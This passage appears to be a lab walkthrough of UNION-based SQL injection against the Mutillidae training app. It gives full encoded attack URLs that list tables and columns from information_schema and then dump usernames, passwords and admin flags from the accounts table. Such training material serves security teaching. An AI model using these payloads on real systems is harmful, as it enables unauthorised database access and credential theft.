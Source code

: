 

![image](https://github.com/NARESHVB/sqlinjection/assets/119393642/8fd959a7-61be-466d-a3b1-dd015fa4d152)

The url when executed, we obtain the necessary information about the database name owasp10, username as root@localhost and version as 5.0.51a-3ubuntu5. In MySQL, the table “information_schema.tables” contains all the metadata identified with table items. Below is listed the most useful information on this table.

Replace the query in the url with the following one: union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,table_name,null,null,5%20from%20information_schema.tables%20where%20table_schema=%27owasp10%27%23&password=&user-info-php-submit-button=View+Account+Details



  ![image](https://github.com/NARESHVB/sqlinjection/assets/119393642/1e797cf6-207a-4f85-b72f-c9c6fb21622f)

The url once executed will retrieve table names from the “owasp 10” database. ##Extracting sensitive data such as passwords

When the attacker knows table names, he needs to discover what the column names are to extract data.

In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

Here we are trying to extract column names from the “accounts” table.



![image](https://github.com/NARESHVB/sqlinjection/assets/119393642/7e181bcf-f579-4ef8-bc4b-2a6a5457ef31)



The column names of the accounts is displayed below for the following url:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=&user-info-php-submit-button=View+Account+Details



![image](https://github.com/NARESHVB/sqlinjection/assets/119393642/76e4dda6-bae5-4ba8-bf75-afcf18d756f0)



Once we discovered all available column names, we can extract information from them by just adding those column names in our query sentence.

Ex: (union select 1,username,password,is_admin,5 from accounts).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,username,password,is_admin,5%20from%20accounts%23&password=&user-info-php-submit-button=View+Account+Details

